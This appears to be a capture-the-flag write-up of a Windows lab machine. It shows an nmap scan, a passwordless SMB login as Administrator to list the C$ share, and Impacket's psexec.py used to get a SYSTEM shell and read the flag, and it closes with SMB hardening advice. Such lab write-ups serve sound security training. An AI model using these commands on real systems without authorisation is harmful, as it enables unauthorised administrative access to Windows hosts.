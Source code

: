 # Tactics
Enumeration

I fired up an Nmap scan to get a general view of the target host. Rustscan is another alternative. Syntax: nmap -sC -Pn -v -p- — min-rate=10000 {Target_IP}

```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo nmap -sC -sV 10.129.135.12 
[sudo] password for melle: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-22 12:43 CDT
Nmap scan report for 10.129.135.12
Host is up (0.23s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6s
| smb2-time: 
|   date: 2024-04-22T17:44:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.73 seconds
```

After a couple of failed attempts to list the shares without the -U flag, I proceeded to authenticate as the ‘Administrator’ user in order to attempt a passwordless login, which resulted in the shares being listed. Then pressed Enter when prompted for a password to successfully gain access. Syntax: smbclient -L {Target_IP} -U Administrator.

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/8985ba37-521e-47ca-b68d-8b91e594ceab)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/ff381e5a-5805-4747-9109-41cfb89c3aaa)
```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ smbclient  \\\\10.129.135.12\\C$  -U Administrator 
Password for [WORKGROUP\Administrator]:
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Wed Apr 21 10:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 13:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 10:17:12 2021
  pagefile.sys                      AHS 738197504  Mon Apr 22 12:38:37 2024
  PerfLogs                            D        0  Sat Sep 15 02:19:00 2018
  Program Files                      DR        0  Wed Jul  7 13:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 13:03:38 2021
  ProgramData                        DH        0  Tue Sep 13 11:27:53 2022
  Recovery                         DHSn        0  Wed Apr 21 10:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 10:34:04 2021
  Users                              DR        0  Wed Apr 21 10:23:18 2021
  Windows                             D        0  Wed Jul  7 13:05:23 2021
```
###### Foothold


` I was able to access and navigate through all three shares as the ‘Administrator’ user, and only the C$ share which is the file system of a Windows machine had interesting directories/files in it. Inside it, I found the Users directory with the Administrator directory and after enumerating through it, the flag.txt file was present in the Desktop directory (C:\Users\Administrator\Desktop). Syntax: smbclient \\\\{Target_IP} -U Administrator`
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/c953b48c-8f4d-41b3-9fa5-6236ee981c20)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4b321c97-8ffb-4d48-9be3-91441c266635)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/70d28431-f319-4b49-acc0-99183a459423)
Since access to the ADMIN$ share is allowed on the SMB server, using Impacket’s psexec.py tool to exploit this misconfiguration and get an interactive shell is another alternative way to capture the flag on this system. However, using psexec.py is tad noisy in real environment.

Impacket is a collection of python3 classes that provides access to network packets. On the other hand, PsExec is a portable tool from Microsoft used to maintain and connect to systems via SMB remotely. Therefore, I used psexec.py to authenticate as the ‘Administrator’ user in order to get an interactive shell.

Syntax: sudo psexec.py username@{Target_IP}


```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo python3 psexec.py administrator@10.129.135.12
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.135.12.....
[*] Found writable share ADMIN$
[*] Uploading file nvEFQWpw.exe
[*] Opening SVCManager on 10.129.135.12.....
[*] Creating service RgcW on 10.129.135.12.....
[*] Starting service RgcW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/7702e7e3-a22d-4024-b39c-cbc09e33fff1)


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2166f39a-593f-4dda-9bd9-a678288e097d)
`Got a shell as user ‘nt authority system’ , which is the user with the highest privileges. I navigated to the same directory as earlier ( C:\Users\Administrator\Desktop) to retrieve the flag.`

`Conclusion
It is imperative to always make sure that your system and services are properly configured in order to prevent threat actors from penetrating through and exploiting it. In this case, changing default settings, permissions, and restricting access to certain shares that should not be accessible by anyone, are simple steps to perform in order to secure a service like SMB. Here is a useful resource from VK9 Security on how to harden and secure SMB.`








